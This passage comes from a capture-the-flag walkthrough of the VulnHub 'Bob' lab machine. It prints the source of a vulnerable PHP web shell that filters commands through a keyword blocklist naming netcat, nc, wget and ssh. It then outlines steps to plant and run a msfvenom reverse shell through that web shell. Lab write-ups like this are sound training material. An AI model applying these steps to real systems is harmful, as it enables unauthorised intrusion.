 ```
393296  4     -rw-r--r--  1  root  root  673      Mar  8  23:43  /var/www/html/passwords.html
```

I can then use `cat.sh` to display the contents of any file where `www-data` has read permissions. For example, let's find out what's in `dev_shell.php`.

```
# ./cat.sh /var/www/html/dev_shell.php
...
  <?php
    //init
    $invalid = 0;
    $command = ($_POST['in_command']);
    $bad_words = array("pwd", "ls", "netcat", "ssh", "wget", "ping", "traceroute", "cat", "nc");
  ?>
  ...
    <?php
    system("running command...");
      //executes system Command
      //checks for sneaky ;
      if (strpos($command, ';') !==false){
        system("echo Nice try skid, but you will never get through this bulletproof php code"); //doesn't work :P
      }
      else{
        $is_he_a_bad_man = explode(' ', trim($command));
        //checks for dangerous commands
        if (in_array($is_he_a_bad_man[0], $bad_words)){
          system("echo Get out skid lol");
        }
        else{
          system($_POST['in_command']);
        }
      }
    ?>
  ...
```

Now that we know how `dev_shell.php` works, let's get ourselves a proper shell.

### Low-privilege Shell

Here's an overview of how you can get a low-privilege shell:

On your attacking machine:

1. Generate a reverse shell with `msfvenom`.
2. Set up `netcat` listener.
3. Encode the reverse shell in `base64`.

In the web shell:

<ol start="4">
<li>Run <code>echo -n [output from #3] | base64 -d > /tmp/rev</code>.</li>
<li>Run <code>chmod +x /tmp/rev</code> in the web shell.</li>
<li>Run <code>/tmp/rev</code> in the web shell.</li>
</ol>


[1]: https://www.vulnhub.com/series/bob,152/
[2]: http://c0rruptedb1t.ddns.net/
[3]: https://www.vulnhub.com